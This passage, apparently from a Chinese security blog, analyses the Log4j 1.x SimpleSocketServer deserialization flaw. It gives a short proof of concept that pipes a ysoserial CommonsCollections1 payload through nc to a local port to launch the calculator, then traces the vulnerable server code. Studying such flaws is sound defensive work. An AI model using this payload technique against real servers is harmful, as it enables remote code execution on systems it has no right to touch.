 ```
```

把Log.java运行起来

用ysoserial和nc打PoC

```
$ java -jar ysoserial-0.0.6-SNAPSHOT-all.jar CommonsCollections1 "open /System/Applications/Calculator.app" > test.txt
$ cat test.txt | nc 127.0.0.1 8888
```

看，弹了个计算器

![1-1](https://milkfr.github.io/assets/images/posts/2020-01-01-analysis-java-deserialize-log4j/1-1.png)

#### 触发流程分析
这次的漏洞实在太简单了，连祖传的debug大法都用不上了

直接跟进`SimpleSocketServer.main()`

```
public class SimpleSocketServer {
    public static void main(String[] argv) {
        if (argv.length == 2) {
            init(argv[0], argv[1]);
        } else {
            usage("Wrong number of arguments.");
        }

        try {
            cat.info("Listening on port " + port);
            ServerSocket serverSocket = new ServerSocket(port);

            while(true) {
                cat.info("Waiting to accept a new client.");
                Socket socket = serverSocket.accept();
                cat.info("Connected to client at " + socket.getInetAddress());
                cat.info("Starting new socket node.");
                (new Thread(new SocketNode(socket, LogManager.getLoggerRepository()), "SimpleSocketServer-" + port)).start();
            }
        } catch (Exception var3) {
            var3.printStackTrace();
        }
    }
}
```

就是普通TCP监听代码，有新连接就开一个新线程，新线程就新建了一个`SocketNode`实例，然后就看`SocketNode`，关键部分如下

```
public class SocketNode implements Runnable {
    public SocketNode(Socket socket, LoggerRepository hierarchy) {
        this.socket = socket;
        this.hierarchy = hierarchy;

        try {
            this.ois = new ObjectInputStream(new BufferedInputStream(socket.getInputStream()));
        } catch (InterruptedIOException var4) {
            Thread.currentThread().interrupt();
            logger.error("Could not open ObjectInputStream to " + socket, var4);
        } catch (IOException var5) {
            logger.error("Could not open ObjectInputStream to " + socket, var5);
        } catch (RuntimeException var6) {
            logger.error("Could not open ObjectInputStream to " + socket, var6);
        }
```